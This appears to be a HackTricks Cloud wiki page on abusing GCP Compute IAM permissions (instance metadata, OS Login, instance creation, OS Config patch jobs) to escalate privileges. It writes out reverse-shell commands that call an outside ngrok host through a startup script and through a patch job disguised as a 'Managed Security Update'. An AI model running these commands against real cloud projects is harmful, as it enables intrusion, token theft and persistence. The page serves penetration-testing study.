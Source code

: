 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

For more information about Compute and VPC (netowork) in GCP check:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Note that to perform all the privilege escalation atacks that require to modify the metadata of the instance (like adding new users and SSH keys) it's **needed that you have `actAs` permissions over the SA attached to the instance**, even if the SA is already attached!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

With that permission you can **modify** the **metadata** information of an **instance** and change the **authorized keys of a user**, or **create** a **new user with sudo** permissions. Therefore, you will be able to exec via SSH into any VM instance and steal the GCP Service Account the Instance is running with.\
Limitations:

* Note that GCP Service Accounts running in VM instances by default have a **very limited scope**
* You will need to be **able to contact the SSH** server to login

For more information about how to exploit this permission check:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

You could aslo perform this attack by adding new startup-script and rebooting the instance:

```bash
gcloud compute instances add-metadata my-vm-instance \
    --metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```

### `compute.instances.setMetadata`

This permission gives the **same privileges as the previous permission** but over a specific instances instead to a whole project. The **same exploits and limitations as for the previous section applies**.

### `compute.instances.setIamPolicy`

This kind of permission will allow you to **grant yourself a role with the previous permissions** and escalate privileges abusing them.

### **`compute.instances.osLogin`**

If **OSLogin is enabled in the instance**, with this permission you can just run **`gcloud compute ssh [INSTANCE]`** and connect to the instance. You **won't have root privs** inside the instance.

{% hint style="success" %}
In order to successfully login with this permission inside the VM instance, you need to have the `iam.serviceAccounts.actAs` permission over the SA atatched to the VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

If **OSLogin is enabled in the instanc**e, with this permission you can just run **`gcloud compute ssh [INSTANCE]`** and connect to the instance. You will have **root privs** inside the instance.

{% hint style="success" %}
In order to successfully login with this permission inside the VM instance, you need to have the `iam.serviceAccounts.actAs` permission over the SA atatched to the VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

It's possible to **create a virtual machine with an assigned Service Account and steal the token** of the service account accessing the metadata to escalate privileges to it.

The exploit script for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

If you have the **`osconfig.patchDeployments.create`** or **`osconfig.patchJobs.exec`** permissions you can create a [**patch job or deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). This will enable you to move laterally in the environment and gain code execution on all the compute instances within a project.

Note that at the moment you **don't need `actAs` permission** over the SA attached to the instance.

If you want to manually exploit this you will need to create either a [**patch job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **or** [**deployment**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
For a patch job run:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
  --instance-filter-names=zones/us-central1-a/instances/<instance-name> \
  --pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
  --reboot-config=never \
  --display-name="Managed Security Update" \
  --duration=300s
```
{% endcode %}

To deploy a patch deployment:

```bash
gcloud compute os-config patch-deployments create <name> ...
```

The tool [patchy](https://github.com/rek7/patchy) could been used in the past for exploiting this misconfiguration (but now it's not working).

**An attacker could also abuse this for persistence.**

### `compute.machineImages.setIamPolicy`

**Grant yourself extra permissions** to compute Image.

### `compute.snapshots.setIamPolicy`

**Grant yourself extra permissions** to a disk snapshot.

### `compute.disks.setIamPolicy`

**Grant yourself extra permissions** to a disk.

### Bypass Access Scopes

Following this link you find some [**ideas to try to bypass access scopes**](../).

### Local Privilege Escalation in GCP Compute instance

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
